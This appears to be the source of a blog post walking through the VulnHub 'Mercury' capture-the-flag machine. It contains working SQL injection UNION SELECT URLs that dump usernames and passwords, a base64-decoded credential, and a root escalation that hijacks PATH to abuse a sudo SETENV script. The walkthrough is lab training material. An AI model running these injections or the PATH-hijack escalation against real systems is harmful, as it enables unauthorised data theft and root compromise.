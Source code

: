 ```yaml
---
layout: post
title:  "Case Study : Mercury / VulnHub"
---
```

- You’ll find this vm in Vulnhub `https://www.vulnhub.com/entry/the-planets-mercury,544/`

- Difficulty : Medium

## SQL injection
## Step 1
{% highlight sh %}
http://10.0.2.5:8080/mercuryfacts/1 UNION SELECT username from users--/
('john',), ('laura',), ('sam',), ('webmaster',))
{% endhighlight %}


## Step 2
{% highlight sh %}
http://10.0.2.5:8080/mercuryfacts/1 UNION SELECT password from users--/
 ('johnny1987',), ('lovemykids111',), ('lovemybeer111',), ('mercuryisthesizeof0.056Earths',))
{% endhighlight %}

## SSH webmaster, find encoded passwords
{% highlight sh %}
  cd mecury_proj/
  ls
  cat notes.txt
{% endhighlight %}

## Base64 decode the password
{% highlight sh %}
echo "bWVyY3VyeW1lYW5kaWFtZXRlcmlzNDg4MGttCg==" | base64 -d
mercurymeandiameteris4880km
{% endhighlight %}

## SSH linuxmaster

- linuxmaster:mercurymeandiameteris4880km

```sh
(root : root) SETENV: /usr/bin/check_syslog.sh
```

```sh
cat /usr/bin/check_syslog.sh
#!/bin/bash
tail -n 10 /var/log/syslog
```

```sh
echo "/bin/bash" > tail
chmod 777 tail
export PATH=.:$PATH
sudo PATH=$PATH /usr/bin/check_syslog.sh
```